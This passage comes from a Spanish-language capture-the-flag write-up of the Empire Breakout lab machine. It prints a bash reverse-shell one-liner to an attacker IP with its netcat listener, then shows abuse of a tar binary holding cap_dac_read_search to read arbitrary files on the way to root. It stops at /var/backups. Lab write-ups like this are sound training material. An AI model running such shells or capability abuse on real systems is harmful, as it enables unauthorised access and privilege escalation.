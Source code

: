 ![](/assets/images/vh-empirebreakout/empire-web9.png)

Ahora, vamos a tratar de entablarnos una reverse shell a una máquina de atacante. Por lo tanto, nos ponemos en escucha por el puerto 443:

```bash
[cyber@breakout ~] bash -i >& /dev/tcp/10.0.0.25/443 0>&1
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.28] 56686
bash: cannot set terminal process group (999): Inappropriate ioctl for device
bash: no job control in this shell
cyber@breakout:~$ whoami
whoami
cyber
cyber@breakout:~$
```

Como siempre, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ya dentro de la máquina somos el usuario **cyber** y podemos visualizar la flag (user.txt). Si checamos nuestro directorio personal, vemos el binario `tar`, el cual podría tratarse de una pista.

```bash
cyber@breakout:~$ ls -l
total 524
-rwxr-xr-x 1 root  root  531928 Oct 19 15:40 tar
-rw-r--r-- 1 cyber cyber     48 Oct 19 14:31 user.txt
cyber@breakout:~$
```

Si checamos las capabilities del binario, vemos que tiene `cap_dac_read_search=ep`:

```bash
cyber@breakout:~$ getcap tar
tar cap_dac_read_search=ep
cyber@breakout:~$
```

Esto nos permite tener permisos de lectura a cualquier archivo; lo que nos permitiría crear un archivo comprimido de cualquier archivo del sistema para posteriormente descomprimir y tener los permisos del usuario **cyber**. Por lo tanto, podriamos tratar de pensar que existe un archivo que tenga información que nos ayude a convertirnos en **root**. Si buscamos un poco, encontramos un recurso interesante en `/var/backups`:
